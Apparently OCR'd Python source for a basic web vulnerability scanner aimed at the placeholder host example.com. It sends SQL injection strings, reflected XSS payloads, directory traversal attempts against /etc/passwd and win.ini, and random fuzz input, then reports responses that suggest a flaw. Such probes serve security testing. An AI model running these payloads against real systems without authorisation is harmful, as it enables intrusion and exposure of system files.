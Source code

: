 import requests
from urllib.parse import urljoin
import random
import string

# Define the base URL of the target web application
BASE_URL = 'http://example.com'

def send_request(url, params=None, cookies=None):
    try:
        response = requests.get(url, params=params, cookies=cookies)
        return response
    except requests.RequestException as e:
        print(f"Request error: {e}")
        return None

def test_sql_injection(url):
    print("Testing SQL Injection...")
    injection_points = ["' OR '1'='1", "'; --", "' OR 'a'='a", "' OR 1=1 --"]
    vulnerable = False

    for payload in injection_points:
        test_url = f"{url}?id={payload}"
        response = send_request(test_url)
        
        if response and ("SQL" in response.text or "sql" in response.text):
            print(f"SQL Injection vulnerability detected with payload: {payload}")
            vulnerable = True

    if not vulnerable:
        print("No SQL Injection vulnerability detected.")

def test_xss(url):
    print("Testing XSS...")
    xss_payloads = ["<script>alert('XSS')</script>", "<img src='x' onerror='alert(1)'>"]
    vulnerable = False

    for payload in xss_payloads:
        test_url = f"{url}?q={payload}"
        response = send_request(test_url)
        
        if response and payload in response.text:
            print(f"XSS vulnerability detected with payload: {payload}")
            vulnerable = True

    if not vulnerable:
        print("No XSS vulnerability detected.")

def test_directory_traversal(url):
    print("Testing Directory Traversal...")
    traversal_payloads = ["../etc/passwd", "..\\..\\..\\..\\windows\\win.ini"]
    vulnerable = False

    for payload in traversal_payloads:
        test_url = f"{url}/{payload}"
        response = send_request(test_url)
        
        if response and ("root:x:" in response.text or "[extensions]" in response.text):
            print(f"Directory Traversal vulnerability detected with payload: {payload}")
            vulnerable = True

    if not vulnerable:
        print("No Directory Traversal vulnerability detected.")

def fuzz_input(length=10):
    return ''.join(random.choices(string.ascii_letters + string.digits, k=length))

def fuzz_test(url, param):
    print(f"Fuzzing {param}...")
    for _ in range(100):  # Number of fuzzing attempts
        fuzz_data = fuzz_input()
        params = {param: fuzz_data}
        response = send_request(url, params=params)
        if response:
            print(f"Fuzz test with data {fuzz_data} resulted in status code {response.status_code}")

def main():
    print("Starting web penetration testing...")
    test_sql_injection(BASE_URL)
    test_xss(BASE_URL)
    test_directory_traversal(BASE_URL)
    fuzz_test(BASE_URL, 'q')  # Assuming 'q' is a query parameter to fuzz
    print("Testing completed.")
